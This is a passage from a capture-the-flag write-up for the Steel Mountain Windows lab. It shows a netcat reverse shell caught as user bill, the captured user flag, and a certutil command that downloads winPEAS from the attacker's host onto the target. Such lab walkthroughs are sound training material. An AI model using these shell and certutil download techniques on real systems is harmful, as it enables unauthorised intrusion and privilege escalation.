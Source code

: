 We see the username is Bill,
lets get the user flag.

## User Flag

```bash
abhinav@ETHICALHACKX:~/ctf/thm$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.14.57.81] from (UNKNOWN) [10.10.23.6] 49351
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd %userprofile%/desktop
cd %userprofile%/desktop

C:\Users\bill\Desktop>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

09/27/2019  09:08 AM    <DIR>          .
09/27/2019  09:08 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,169,609,216 bytes free

C:\Users\bill\Desktop>type user.txt
type user.txt
b04763b6fcf51fcd7c13abc7db4fd365

C:\Users\bill\Desktop>

```

Let us get the WinPeas to the machine and find more information in order to find more about the machine.
I am using certutil to download WinPeas.ps1 from my machine.

```bash
C:\Users\bill\Desktop>

C:\Users\bill\Desktop>certutil.exe -urlcache -split -f http://10.14.57.81:80/winPEAS.ps1
certutil.exe -urlcache -split -f http://10.14.57.81:80/winPEAS.ps1
****  Online  ****
  000000  ...
  011824
CertUtil: -URLCache command completed successfully.

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

09/25/2023  11:38 AM    <DIR>          .
```